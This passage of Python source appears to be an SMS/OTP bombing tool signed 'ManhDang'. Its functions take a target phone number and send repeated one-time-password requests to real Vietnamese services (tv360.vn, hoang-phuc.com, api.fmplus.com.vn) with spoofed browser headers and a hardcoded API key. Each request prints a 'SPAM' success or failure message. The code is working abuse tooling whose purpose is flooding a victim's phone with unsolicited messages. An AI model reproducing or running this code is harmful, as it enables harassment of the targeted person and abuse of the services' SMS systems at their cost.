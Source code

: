     response = requests.post('https://tv360.vn/public/v1/auth/get-otp-login', headers=headers, json=json_data).json()
    if response ['errorCode'] == 200:
        print(f'[BY: ManhDang] ~ \033[1;35m TV360 SPAM THÀNH CÔNG')
    else:
        print(f'[BY: ManhDang] ~ \033[1;35m TV360 SPAM THẤT BẠI')
def hoangphuc(sdt):
    headers = {
        'authority': 'hoang-phuc.com',
        'accept': 'application/json, text/javascript, */*; q=0.01',
        'accept-language': 'vi-VN,vi;q=0.9,fr-FR;q=0.8,fr;q=0.7,en-US;q=0.6,en;q=0.5,ja;q=0.4',
        'content-type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'origin': 'https://hoang-phuc.com',
        'referer': 'https://hoang-phuc.com/customer/account/create/',
        'sec-ch-ua': '"Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"',
        'sec-ch-ua-mobile': '?0',
        'sec-ch-ua-platform': '"Windows"',
        'sec-fetch-dest': 'empty',
        'sec-fetch-mode': 'cors',
        'sec-fetch-site': 'same-origin',
        'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36',
        'x-requested-with': 'XMLHttpRequest',
    }
    data = {
        'action_type': '1',
        'tel': sdt,
    }
    response = requests.post('https://hoang-phuc.com/advancedlogin/otp/sendotp/', headers=headers, data=data).json()
    if response ['success'] == True:
        print(f'[BY: ManhDang] ~ \033[1;35m MANHDANG SPAM THÀNH CÔNG')
    else:
        print(f'[BY: ManhDang] ~ \033[1;35m ManhDang SPAM THẤT BẠI')

def fmplus(sdt):
    headers = {
        'authority': 'api.fmplus.com.vn',
        'accept': 'application/json, text/plain, */*',
        'accept-language': 'vi-VN,vi;q=0.9,fr-FR;q=0.8,fr;q=0.7,en-US;q=0.6,en;q=0.5,ja;q=0.4',
        'authorization': 'Bearer',
        'content-type': 'application/json;charset=UTF-8',
        'origin': 'https://www.fm.com.vn',
        'referer': 'https://www.fm.com.vn/',
        'sec-ch-ua': '"Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"',
        'sec-ch-ua-mobile': '?0',
        'sec-ch-ua-platform': '"Windows"',
        'sec-fetch-dest': 'empty',
        'sec-fetch-mode': 'cors',
        'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36',
        'x-apikey': 'X2geZ7rDEDI73K1vqwEGStqGtR90JNJ0K4sQHIrbUI3YISlv',
        'x-emp': '',
        'x-fromweb': 'true',
        'x-requestid': '320a2995-6b36-445d-aa57-2dc514e31d0e',
    }
    json_data = {
        'Phone': sdt,
        'LatOfMap': '',
        'LongOfMap': '',
        'Browser': '',
    }
    response = requests.post('https://api.fmplus.com.vn/api/1.0/auth/verify/send-otp-v2', headers=headers, json=json_data).json()
